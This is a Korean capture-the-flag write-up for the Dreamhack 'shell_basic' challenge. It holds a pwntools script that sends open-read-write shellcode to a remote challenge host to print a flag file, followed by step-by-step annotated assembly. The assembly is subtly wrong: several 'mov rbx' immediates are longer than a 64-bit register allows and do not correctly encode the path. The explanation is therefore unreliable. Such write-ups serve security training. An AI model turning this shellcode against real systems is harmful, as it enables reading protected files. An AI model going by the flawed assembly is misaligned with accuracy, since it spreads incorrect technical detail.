 # shell_basic

```python
from pwn import *

p = remote('host1.dreamhack.games', 10499)

# 익스플로잇 환경 설정
context(arch="amd64", os="linux")

# 내용이 나올때까지 기다림
p.recvuntil('shellcode: ')

payload = ""
payload += shellcraft.pushstr("/home/shell_basic/flag_name_is_loooooong")
payload += shellcraft.open("rsp",0,0)
payload += shellcraft.read("rax", "rsp", 36)
payload += shellcraft.write(1, "rsp", 36)

p.sendline(asm(payload)) # 셸코드 어셈블리어로 변환하여 바이너리로 변환
print(p.recv(4096))
```

### **쉘코드의 전체 흐름**

1. pushstr : 플래그 파일 경로를 스택에 저장.
    
    ```nasm
    xor rax, rax                        # rax 레지스터를 0으로 초기화
    mov rbx, 0x6e6f6f6f6f6f6f6e676100   # 경로 문자열의 일부를 rbx에 저장
    push rbx                            # rbx 내용을 스택에 푸시
    mov rbx, 0x656d616e5f656d616e2f     # 경로 문자열의 나머지 부분을 rbx에 저장
    push rbx                            # rbx 내용을 스택에 푸시
    mov rbx, 0x62617369635f656c6c2f68   # 앞부분 경로 "/home/shell_basic/"를 rbx에 저장
    push rbx                            # rbx 내용을 스택에 푸시
    ```
    
2. open : 스택에 저장된 파일 경로를 사용하여 플래그 파일을 엶.
    
    ```nasm
    mov rdi, rsp        # rdi에 스택 포인터(rsp)에 저장된 파일 경로를 복사
    xor esi, esi        # esi(파일 열기 플래그)를 0으로 설정 (읽기 전용)
    xor edx, edx        # edx(파일 모드)를 0으로 설정
    mov eax, 2          # eax에 SYS_open 시스템 호출 번호(2)를 저장
    syscall             # 시스템 호출 실행
    ```
    
3. read : 파일에서 36바이트 데이터를 읽어 스택에 저장.
    
    ```nasm
    mov rdi, rax        # rdi에 파일 디스크립터(rax)를 복사
    mov rsi, rsp        # rsi에 데이터를 저장할 메모리 주소(rsp)를 복사
    mov rdx, 36         # rdx에 읽을 데이터 크기(36바이트)를 설정
    mov eax, 0          # eax에 SYS_read 시스템 호출 번호(0)를 저장
    syscall             # 시스템 호출 실행
    ```
    
4. write : 읽어온 데이터를 표준 출력(콘솔)에 출력.
    
    ```nasm
    mov rdi, 1          # rdi에 파일 디스크립터(1)를 설정
    mov rsi, rsp        # rsi에 출력할 데이터가 저장된 메모리 주소(rsp)를 복사
    mov rdx, 36         # rdx에 출력할 데이터 크기(36바이트)를 설정
    mov eax, 1          # eax에 SYS_write 시스템 호출 번호(1)를 저장
    syscall             # 시스템 호출 실행
    ```